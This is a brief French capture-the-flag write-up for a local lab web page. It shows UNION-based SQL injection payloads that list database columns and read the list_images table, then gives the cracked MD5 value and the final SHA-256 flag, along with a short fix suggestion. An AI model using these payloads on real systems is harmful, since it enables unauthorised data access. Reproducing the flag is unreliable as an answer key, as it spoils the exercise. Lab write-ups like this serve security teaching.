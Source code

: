sur http://192.168.99.102/?page=searchimg

Nous savons déjà comment lister les colonnes et les tables de la db:

1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns

un petit CMD + F d'image nous indique directement que la table à exploité est `list_images`:

dans la table list_images nous avons:
id
url
title
comment

la colonne `comment` etait un bon point de depart sur l'autre faille:

testons alors d'afficher les comment et le title:

1 AND 1 = 2 UNION ALL SELECT title, comment FROM list_images


Amelioration:

Gerer les sqli, protegers les strings envoyer en request.


```
"If you read this just use this md5 decode lowercase then sha256 to win this flag !"
```

1928e8083cf461a51303633093573c46 -> albatroz 
sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188